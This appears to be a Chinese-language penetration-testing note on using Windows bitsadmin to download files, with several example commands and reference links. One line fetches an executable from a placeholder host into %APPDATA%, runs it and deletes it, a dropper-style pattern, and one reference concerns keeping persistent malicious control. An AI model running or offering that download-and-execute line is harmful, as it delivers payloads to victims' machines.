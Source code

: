 bitsadmin命令（只能命令下载到已存在的路径上，win7以上）：



https://xz.aliyun.com/t/1654/

1.```bitsadmin /transfer n http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\a.jpg```  # 带进度条

2.```bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

3.```bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

4.带进度条

```bitsadmin /transfer myDownLoadJob /download /priority normal "http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg" "e:\abc.jpg"```

![](bitsadmin/1.jpg)

5.多条命令(测试失败)
 
``` 
bitsadmin /create myDownloadJob
bitsadmin /addfile myDownloadJob http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\abc.jpg
bitsadmin /resume myDownloadJob
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```

bitsadmin /list /allusers /verbose  #列出所有任务(如果列所有用户需管理员权限）

bitsadmin /list /verbose         #列出所有任务

bitsadmin /cancel myDownloadJob   #删除某个任务


未知

	bitsadmin /transfer d90f <http://site.com/a> %APPDATA%\d90f.exe&%APPDATA%\d90f.exe&del %APPDATA%\d90f.exe


参考

[使用Bitsadmin 命令下载文件](https://www.cnblogs.com/hookjoy/p/6550992.html)

[使用计划任务和bitsadmin实现恶意代码长期控守](https://blog.csdn.net/qq_31481187/article/details/57540231)


## 后记

1.缺点：要输入绝对路径

2.bitsadmin 下载文件后默认的文件修改时间很有趣：

![](bitsadmin/2.jpg)
